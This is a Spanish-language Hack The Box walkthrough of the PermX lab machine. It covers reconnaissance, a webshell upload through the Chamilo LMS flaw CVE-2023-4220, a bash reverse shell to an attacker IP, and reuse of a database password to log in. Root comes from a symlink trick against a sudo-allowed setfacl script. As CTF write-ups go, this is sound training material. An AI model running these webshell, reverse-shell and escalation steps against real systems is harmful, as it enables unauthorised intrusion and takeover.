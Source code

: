 ```yaml
---
title: PermX - Hack The Box
date: 2024-09-20
description: Maquina PermX (Easy) de Hack The Box.
categories:
    - Writeups
    - HTB
tags:
    - Linux
    - HTB
    - CTF
    - Easy
    - Seasonal
media_subpath: /assets/img/commons/permx/
image: permx.png
---
```


## Escaneo

```bash
nmap -p- --open -sS -min-rate 5000 -vvv -n -Pn 10.10.11.23 -oG allPorts
```

Puertos abiertos: 22 y 80

## Análisis

```bash
nmap -sCV -p22,80 10.10.11.23 -oN targeted

22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://permx.htb
|_http-server-header: Apache/2.4.52 (Ubuntu)
```

El puerto 80 da acceso a la web de http://permx.htb, sin nada destacable.

Whatweb tampoco añade mayor información:
```bash
whatweb http://permx.htb

http://permx.htb [200 OK] Apache[2.4.52], Bootstrap, Country[RESERVED][ZZ], Email[permx@htb.com], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[10.10.11.23], JQuery[3.4.1], Script, Title[eLEARNING]
```

Enumerando con nmap se ven los siguientes directorios sin información relevante:
```bash
nmap --script http-enum -p80 10.10.11.23 -oN webScan
80/tcp open  http
| http-enum: 
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.52 (ubuntu)'
|   /img/: Potentially interesting directory w/ listing on 'apache/2.4.52 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.52 (ubuntu)'
|_  /lib/: Potentially interesting directory w/ listing on 'apache/2.4.52 (ubuntu)'
```

Enumerando subdominios con wfuzz se ven los siguientes subdominios, del cual se destaca lms:
```bash
wfuzz -c --hl=9 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.permx.htb" http://permx.htb/

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000001:   200        586 L    2466 W     36182 Ch    "www"
000000477:   200        352 L    940 W      19347 Ch    "lms" 
```

## Explotación

http://lms.permx.htb es un LMS (Learning Management System) en Chamilo. Este LMS es vulnerable al [CVE-2023-4220](https://nvd.nist.gov/vuln/detail/CVE-2023-4220) cuyo exploit está disponible en [GitHub](https://github.com/Rai2en/CVE-2023-4220-Chamilo-LMS).

Este exploit se basa en subir una WebShell `'<?php echo system($_GET["cmd"])?>'` al directorio vulnerable `http://permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'` para a continuación establecer una Reverse Shell haciendo uso de la WebShell alojada en el directorio `http://permx.htb/main/inc/lib/javascript/bigupload/files/` pasando por GET la Reverse Shell `'#!/bin/bash\nbash -i >& /dev/tcp/{host}/{port} 0>&1'`

De forma manual, sin usar Exploit, es posible explotar la vulnerabilidad creando un fichero para la WebShell en php:
```bash
echo '<?php echo system($_GET["cmd"]); ?>' > webshell_test.php
```

Subiendola al directorio vulnerable del LMS:
```bash
curl -F "bigUploadFile=@webshell_test.php;filename=webshell_test.php" http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported
The file has successfully been uploaded. 
```

Y estableciendo la Reverse Shell a través de la WebShell:
```bash
bash -c "bash -i >& /dev/tcp/10.10.15.23/443 0>&1"
```

Que, al hacer URL encode queda de la siguiente manera:
```http
http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/webshell_test.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.10.15.23/443 0>%261"
```

Y se gana acceso al sistema como usuario www-data:
```bash
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ whoami
<ilo/main/inc/lib/javascript/bigupload/files$ whoami                     
www-data
```

## Escalada

### User

Listando los ficheros con permisos de root:

```bash
find / -perm -4000 -user root 2>/dev/null

/usr/bin/mount
/usr/bin/sudo
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/libexec/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Nada destacable.

Listando los ficheros con configuración en el directorio de Chamilo se puede ver un configuration.php:

```bash
find . -name \*conf\* 2>/dev/null

...
./app/config/configuration.php
...
```

Este fichero contiene los datos de conexión de la bbdd:
```bash
www-data@permx:/var/www/chamilo$ cat ./app/config/configuration.php | grep db_user
$_configuration['db_user'] = 'chamilo';
www-data@permx:/var/www/chamilo$ cat ./app/config/configuration.php | grep db_password
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
```

Listando los usuarios de /home/ se puede ver el usuario "mtz" no accesible desde www-data.

Verificando la reutilización de la contraseña de la bbdd por el usuario mtz, se comprueba que es accesible por ssh.

>Username: mtz   
>Password: 03F6lY3uXAP2bkW8   

Al conectarse se obtiene la User Flag.
```bash
ssh mtz@10.10.11.23
```

### Root

Listando los ficheros en los que el usuario mtz tiene permisos se obtiene el script "/opt/acl.sh":
```bash
mtz@permx:~$ sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

Este script usa "setfacl" para cambiar los permisos de cualquier fichero en /home/mtz:
```bash
mtz@permx:~$ cat /opt/acl.sh
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

El script no permite hacer Path Traversal ya que refleja la opción `"$target" == *..* ` pero no controla los enlaces simbólicos.

Creando un enlace simbólico del fichero /etc/sudoers en /home/mtz:
```bash
ln -s /etc/sudoers /home/mtz/test
```

Y aplicando el script sobre el enlace simbolico se dan permisos de lectura y escritura sobre /etc/sudoers:
```bash
sudo /opt/acl.sh mtz rw /home/mtz/test
```

Lo que permite añadir el permiso de sudo al usuario mtz y convertirse en root:
```bash
vim /home/mtz/test
...
mtz     ALL=(ALL) ALL
...
```

Como root se tiene acceso a la Root Flag.

